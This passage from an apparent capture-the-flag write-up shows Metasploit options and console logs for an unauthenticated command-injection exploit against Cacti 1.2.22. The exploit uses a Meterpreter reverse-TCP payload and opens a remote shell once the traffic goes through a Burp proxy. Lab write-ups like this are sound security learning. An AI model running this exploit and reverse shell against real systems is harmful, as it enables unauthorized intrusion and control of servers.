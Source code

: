        X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostna
                                                      me in the poller table.
    
    
       When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                           0.0.0.0 to listen on all addresses.
       SRVPORT  8000             yes       The local port to listen on.
    
    
    Payload options (linux/x86/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       1   Automatic (Linux Dropper)
    

When I run this, it finds it vulnerable, sends a stager, but fails to return a
session:

    
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Exploit completed, but no session was created.
    

The weird thing is, when I send this through Burp to see what’s happening, it
works:

    
    
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set proxies http:127.0.0.1:8080
    proxies => http:127.0.0.1:8080
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Sending stage (1017704 bytes) to 10.10.11.211
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.211:59692) at 2023-04-29 17:25:14 -0400
    